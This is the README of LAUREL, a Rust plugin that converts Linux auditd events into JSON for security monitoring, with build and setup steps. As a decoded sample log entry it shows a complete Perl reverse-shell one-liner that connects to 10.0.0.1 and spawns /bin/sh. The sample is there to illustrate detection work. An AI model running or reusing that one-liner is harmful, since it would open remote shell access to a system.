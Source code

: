 # LAUREL: Linux Audit – Usable, Robust, Easy Logging

LAUREL is an event post-processing plugin for _auditd(8)_ to improve its usability in modern security monitoring setups.

## Why?

TLDR: Instead of audit events that look like this…
```
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B65742…
```
…turn them into JSON logs where the mess that your pen testers/red teamers/attackers are trying to make becomes apparent at first glance:
```
{ … "EXECVE":{ "argc": 3,"ARGV": ["perl", "-e", "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]}, …}
```
This happens at the source. The generated event even contains useful information about the spawning process:
```
"PARENT_INFO":{"ARGV":["bash"],"launch_time":1626611323.973,"ppid":3190631}
```

## Description

Logs produced by the Linux Audit subsystem and _auditd(8)_ contain information that can be very useful in a SIEM context (if a useful rule set has been configured). However, the format is not well-suited for at-scale analysis: Events are usually split across different lines that have to be merged using a message identifier. Files and program executions are logged via `PATH` and `EXECVE` elements, but a limited character set for strings causes many of those entries to be hex-encoded. For a more detailed discussion, see [Practical _auditd(8)_ problems](practical-auditd-problems.md).

_LAUREL_ solves these problems by consuming audit events, parsing and transforming them into more data and writing them out as a JSON-based log format, while keeping all information intact that was part of the original audit log. It does not replace _auditd(8)_ as the consumer of audit messages from the kernel. Instead, it uses the _audisp_ ("audit dispatch") interface to receive messages via _auditd(8)_. Therefore, it can peacefully coexist with other consumers of audit events (e.g. some EDR products).

Refer to [JSON-based log format](json-format.md) for a description of the log format.

We developed this tool because we were not content with feature sets and performance characteristics of existing projects and products. Please refer to [Performance](performance.md) for details.

## A word about audit rules

A good starting point for an audit ruleset is <https://github.com/Neo23x0/auditd>, but generally speaking, any ruleset will do. _LAUREL_ will currently only work properly if _End Of Event_ record are not suppressed, so rules like

> `-a always,exclude -F msgtype=EOE`

should be removed.

## Build from source…

_LAUREL_ is written in Rust. To build it, a reasonably recent Rust compiler (we currently use 1.48), `cargo`, and the 
`libacl` library and its header files (Debian: `libacl1-dev`, RedHat: `libacl-devel`) are required.

``` console
$ cargo build --release
$ sudo install -m755 target/release/laurel /usr/local/sbin/laurel
```

## …or use the provided binary

Static Linux/x86_64 binaries are built for tagged releases.

## Configure, use

- Create a dedicated user, e.g.:
    ``` console
    $ sudo useradd --system --home-dir /var/log/laurel --create-home _laurel
    ```
- Configure _LAUREL_: Copy the provided annotated [example](etc/laurel/config.toml) to `/etc/laurel/config.toml` and customize it.
- Register _LAUREL_ as an _audisp_ plugin: Copy the provided [example](etc/audit/plugins.d/laurel.conf) to `/etc/audisp/plugins.d/laurel.conf` or `/etc/audit/plugins.d/laurel.conf` (depending on your _auditd_ version).
- If you are running SELinux, compile the provided policy and install it into the running kernel:
    ``` console
    $ make -C contrib/selinux
    $ sudo semodule -i contrib/selinux/laurel.pp
    $ sudo restorecon -v -R -F /usr/local/sbin/laurel /etc/laurel /var/log/laurel
    ```
- Tell _auditd(8)_ to re-evaluate its configuration
    ``` console
    $ sudo pkill -HUP auditd
    ```

## Test, Debug

For debugging and other testing purposes, _LAUREL_ can be run without specifying any configuration file. It will not change users and read events from standard input, just as it would when called from _auditd_. Log entries arewritten to `audit.log` in the current working directory.

## License

GNU General Public License, version 3

## Authors

- Hilko Bengen <<bengen@hilluzination.de>>
- Sergej Schmidt <<sergej@msgpeek.net>>
